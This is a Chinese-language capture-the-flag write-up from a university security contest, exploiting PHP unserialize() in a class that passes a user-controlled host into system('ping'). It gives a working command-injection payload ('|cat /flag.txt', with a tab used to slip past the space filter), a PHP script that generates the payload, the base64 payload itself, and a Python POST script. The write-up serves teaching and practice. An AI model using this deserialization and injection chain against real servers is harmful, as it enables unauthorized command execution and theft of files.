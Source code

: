 ### CTF中的PHP反序列化利用实例

>代码来自第六届防灾科技学院网络安全技能大赛，侵删。
#### 目标

获取Linux服务器根目录下的flag

#### 代码
```PHP
/*home.php*/
class home{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }

    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 

    function ping($host){
        system("ping -c 2 $host");
    }
    function waf($str){
        $str=str_replace(' ','',$str);
        return $str;
    }

    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf(trim(mysql_escape_string($v)));
        }
    }   
}
$a=@$_POST['a'];
@unserialize(base64_decode($a));
```
#### 分析
该PHP文件只接收一个base64编码的POST参数，将其解码后会进行反序列化操作。

在进行反序列化操作时首先会触发__wakeup()魔术方法，该方法会过滤掉args参数中的空格。

当所有的操作执行完毕之后，需要释放序列化的对象，触发__destruct()魔术方法。该方法只允许执行类中的ping方法，并会将args的值作为ping方法host参数。

ping中存在可控参数$host，且调用了system函数，这里便可以作为一个利用点。可以构造一个特殊的payload：
```shell
ping -c 2 127.0.0.1|cat /flag.txt
#不唯一
```
#### 利用
整理上面的思路可知，若想得到flag最终要构造出如下的args字符串：
```shell
127.0.0.1|cat /flag.txt
```
而waf等方法又过滤掉了空格，这里可以通过将空格换成Tab来绕过该限制。  
同时还要注意method必须为ping。

这里得到了构造payload的最终PHP脚本：
```php
class home{
    
    private $method;
    private $args; 
}
	$a = new home("ping",array('127.0.0.1|cat 	/flag.txt'));
	$b = serialize($a);
	echo base64_encode($b);
```
payload
```txt
Tzo0OiJob21lIjoyOntzOjEyOiIAaG9tZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGhvbWUAYXJncyI7YToxOntpOjA7czoyNDoiMTI3LjAuMC4xfGNhdCAJL2ZsYWcudHh0Ijt9fQ==
```
发送payload得到flag
```python
import requests
data ={"a":"Tzo0OiJob21lIjoyOntzOjEyOiIAaG9tZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGhvbWUAYXJncyI7YToxOntpOjA7czoyNDoiMTI3LjAuMC4xfGNhdCAJL2ZsYWcudHh0Ijt9fQ=="}
url = 'http://localhost/common/home.php'
r = requests.post(url,data=data)
print(r.text)
#result:flag{glzjin_wants_a_girl_friend}
```